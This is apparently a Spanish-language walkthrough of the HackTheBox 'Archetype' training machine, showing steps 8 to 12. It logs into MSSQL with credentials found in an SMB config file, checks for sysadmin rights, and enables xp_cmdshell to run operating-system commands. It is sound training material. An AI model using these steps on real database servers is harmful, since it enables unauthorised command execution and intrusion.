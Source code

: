 8. **Vamos a conectarnos usando la autenticación de Windows (`-windows-auth`) usando el usuario y la contraseña que hemos obtenido dentro del archivo de configuración del servidor SMB.**
```bash
python3 mssqlclient.py ARCHETYPE/sql_svc@[target IP] -windows-auth
```
--> Se nos pedirá la contraseña y la introducimos. Entraremos en la base de datos!

9. **Ahora una vez dentro de la base de datos, vamos a movernos. Escribimos `help` para obtener los comandos que podemos ejecutar y obtenemos lo siguiente:**

![](img/comandosMSSQL.png)

Vamos a explorar la siguiente página, una Cheat Sheet de MSSQL Injection:
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

10. **Vamos a usar la Cheat Sheet de antes para ejecutar comandos interesantes. Vamos a ver si somos `sysadmin` (administradores de sistema), que supuestamente es lo más alto**
```SQL
SELECT is_srvrolemember('sysadmin');
```
--> Obtenemos un 1, que significa True!

11. **Vamos a probar a ejecutar comandos desde la CMD con `xp_cmdshell`:**
```SQL
EXEC xp_cmdshell 'net user';
```

![](img/errorXPCMDShell.png)

--> Vemos que está desactivado el uso de `xp_cmdshell`, así que vamos a irnos a nuestra Cheat Sheet para ver cómo se activa.

12. **Activamos el uso de `xp_cmdshell`**
```SQL
EXEC sp_configure 'show advanced options', 1;
```
```SQL
RECONFIGURE;
```
```SQL
EXEC sp_configure 'xp_cmdshell', 1;
```
```SQL
RECONFIGURE;
```
